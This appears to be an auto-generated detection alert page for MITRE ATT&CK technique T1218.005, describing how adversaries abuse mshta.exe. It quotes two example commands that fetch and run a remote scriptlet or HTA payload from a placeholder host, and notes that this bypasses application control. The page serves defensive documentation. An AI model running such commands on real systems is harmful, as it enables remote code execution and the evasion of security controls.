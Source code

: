 # Alert: Mshta

#SCENARIO
Tutaj wpisz swój opis scenariusza lub pozostaw do uzupełnienia.
#ENDSCENARIO

**Technique ID:** T1218.005

**Description:** Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017)   Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)  Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>  They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>  Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

**MITRE Link:** https://attack.mitre.org/techniques/T1218/005/

Autor: APT Matrix Generator

<!--
Tactics: 
Technique ID: T1218.005
Status: Pending
-->
